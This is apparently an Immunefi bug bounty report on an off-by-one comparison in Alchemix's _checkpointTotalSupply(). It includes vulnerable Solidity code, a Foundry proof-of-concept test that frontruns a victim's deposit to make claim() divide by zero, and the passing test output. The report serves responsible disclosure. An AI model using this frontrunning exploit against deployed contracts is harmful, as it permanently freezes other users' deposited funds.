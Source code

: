 
# `checkpointTotalSupply()` can checkpoint before a timestamp is complete

Submitted on Sun May 12 2024 04:57:42 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31076

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
The `checkpointTotalSupply()` function is in the `RewardsDistributor` and is callable by anyone. The function has an incorrect comparison of `>` instead of `>=`, and this can lead to a checkpoint being recorded when a timestamp is not yet complete. This leads to mistakes in the internal accounting. In the worst case, a user can never successfully `claim()` again, which permanently freezes their `BPT` tokens that have been deposited into `veALCX`. 

## Vulnerability Details
The implementation of `_checkpointTotalSupply()` is as follows:


```solidity
function _checkpointTotalSupply() internal {
    address ve = votingEscrow;
    uint256 t = timeCursor;
    uint256 roundedTimestamp = (block.timestamp / WEEK) * WEEK;
    IVotingEscrow(ve).checkpoint();

    for (uint256 i = 0; i < 20; i++) {
        if (t > roundedTimestamp) {
            break;
        } else {
            veSupply[t] = IVotingEscrow(ve).totalSupplyAtT(t);
        }
        t += WEEK;
    }
    timeCursor = t;
}
```

Notice that whenever `veSupply[t]` is assigned to a value, the `t += WEEK` increment happens immediately after, which permanently progresses the cursor so that `veSupply[t]` will never be assigned to again. Also, notice that the `veSupply[t]` assignment is only skipped if `t > roundedTimestamp`. This is incorrect. It should also be skipped if `t == roundedTimestamp`, otherwise this code can record the `totalSupplyAtT()` value before the timestamp itself is complete. This means the check should actually be: `if (t >= roundedTimestamp)`.

## Impact Details
In the scenario when `t == roundedTimestamp`, the code will incorrectly cache the `totalSupplyAtT()` of the current timestamp early. Any actions taken in `veALCX` after this (but on the same timestamp) will not be reflected in the `veSupply[]` value. On the other hand, the `_claimable()` function will correctly account for these last-second actions in each individual `tokenId`. As a result, it is possible for the `balanceOf` value below to contain deposits that did not contribute to the `veSupply[weekCursor]` value:

```solidity
if (balanceOf != 0) {
    toDistribute += (balanceOf * tokensPerWeek[weekCursor]) / veSupply[weekCursor]
}
```

In the worst-case scenario, the first user of `VotingEscrow` can end up in a situation where `veSupply[weekCursor] == 0` and `balanceOf > 0`. In this case, the `claim()` function will revert due to a division by zero, and it will permanently fail to progress past the broken week.

Since the `withdraw()` function in the `veALCX` contract has the following code:

```soldidity
IRewardsDistributor(distributor).claim(_tokenId, false);
```

it will always revert on this line, and users will be in a state where they are permanently unable to withdraw their `BPT` tokens. See the PoC for an example.

## References
See the PoC below.
        
## Proof of concept
## Proof of Concept

I have created the following test file and added it to the `tests/` directory:


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract CheckpointBugTest is BaseTest {

    address victim = admin;

    constructor() {
        setupContracts(block.timestamp);
    }

    function testCheckpointTotalSupplyBugFreezing() public {

        uint256 ts = ((block.timestamp + 1 weeks) / 1 weeks) * 1 weeks;
        hevm.warp(ts);

        // If a victim is about to deposit, frontrunning and checkpointing them 
        // will store `veSupply[ts] == 0`. This is especially a risk if block builders
        // aren't currently accepting the victim tx's priority fee, so there's a large window
        // of time where the user's tx is in the mempool but not on-chain. This may also just
        // happen by accident.
        distributor.checkpointTotalSupply();
        uint256 tokenId = createVeAlcx(victim, TOKEN_100K, MAXTIME, false);

        console.log("The following state implies that `claim()` will permanently divide by 0:");
        console.log("ts", ts);
        console.log("distributor.timeCursor()", distributor.timeCursor());
        console.log("distributor.veSupply(ts)", distributor.veSupply(ts));
        console.log("veALCX.totalSupplyAtT(ts)", veALCX.totalSupplyAtT(ts));

        hevm.warp(newEpoch());
        voter.distribute();

        vm.expectRevert();
        distributor.claimable(tokenId);

        hevm.warp(veALCX.lockEnd(tokenId));

        vm.startPrank(victim);
        
        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + 1 weeks);

        // Now their BPT is permanently stuck since all calls to `claim()` will revert due to
        // a division by 0. It shouldn't have allowed `veSupply[ts] == 0` to be checkpointed
        // because the timestamp wasn't over yet.
        vm.expectRevert();
        veALCX.withdraw(tokenId);

        vm.stopPrank();
    }
}
```


Running the command `forge test -vvv --match-test testCheckpointTotalSupplyBugFreezing --rpc-url $ETH_RPC_URL` gives the following result:


```
[PASS] testCheckpointTotalSupplyBugFreezing() (gas: 25610541)
Logs:
  The following state implies that `claim()` will permanently divide by 0:
  ts 1715817600
  distributor.timeCursor() 1716422400
  distributor.veSupply(ts) 0
  veALCX.totalSupplyAtT(ts) 199452054794520538483200

```

which shows that the user's attempt to call `withdraw()` indeed reverts and their deposited `BPT` tokens are permanently frozen. 